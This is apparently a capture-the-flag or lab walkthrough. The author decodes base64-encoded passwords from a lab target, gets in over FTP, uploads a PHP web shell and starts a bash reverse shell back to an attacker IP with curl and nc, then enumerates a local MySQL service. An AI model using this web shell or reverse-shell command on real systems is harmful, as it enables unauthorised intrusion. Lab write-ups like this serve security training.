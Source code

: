 the names, passwords and positions within the organisation;
I used the `echo 'password' | base64 -d` command to decode the passwords one by one since the `security.txt` file said they were encoded in base 64. and the `file users.db.enc` command confirmed it.

| Username      | Role              | Base64 Encoded Password    | decoded Passwords |
| ------------- | ----------------- | -------------------------- | ----------------- |
| **adeboye**   | Security Analyst  | `TmlnaHRIYXdrXzcy`         | NightHawk_72      |
| **a.jensen**  | Cloud Architect   | `V2FycERyaXZlJTMyMQ==`     | WarpDrive%321     |
| **r.faraday** | SysOps Lead       | `VjBsdE5ldCE5MDI=`         | V0ltNet!902       |
| **e.morris**  | DevOps Engineer   | `T3Jpb25TZWN1cmU3Iw==`     | OrionSecure7#     |
| **c.hopkins** | Network Engineer  | `Q2xvdWQhUmVkODg=`         | Cloud!Red88       |
| **dev**       | FTP Administrator | `R2hvc3RTeW5jQEZUUCUxMjM=` | GhostSync@FTP%123 |
The `dev` user is the most promising target for initial access as it's specifically the FTP Administrator.

- Successfully gained FTP access:
![[ftp success.png]]

 - Web shell and Initial foothold: I realised the ftp gave me access to upload/put files so I created a php web shell and put it in the list of folders using FTP
 ![[Insert_shell_v_ftp.png]]
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
ftp 192.168.1.81
put shell.php
```

- I used the `shell.php` file to implement a reverse shell 
```
# Start listener
nc -nvlp 4444

# Trigger reverse shell
curl "http://192.168.1.81/uploads/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.145%2F4444%200%3E%261%27"
```
- Shell stabilization processs was missed here:
- Privilege escalation pathway :
since the other credentials in the first database did not work for ssh and ftp I tried to find another service that encapsulated the phrase - "Create Secure Sync between Web & FTP" from the `security.txt` file.
I searched services that may not be obvious i.e., are not listening for external connections
I found a MySQL tcp service (`port:3306`)listening for local connections only (`127.0.0.1`) 
the service was running on **localhost:3306**, even though it wasn't visible in external nmap scans. found using the `ss -tulpn` command to check for listening sockets and the open processes/services that own them.

 `ss`  Socket statistics — a modern replacement for `netstat`. It queries kernel socket info and prints socket lists
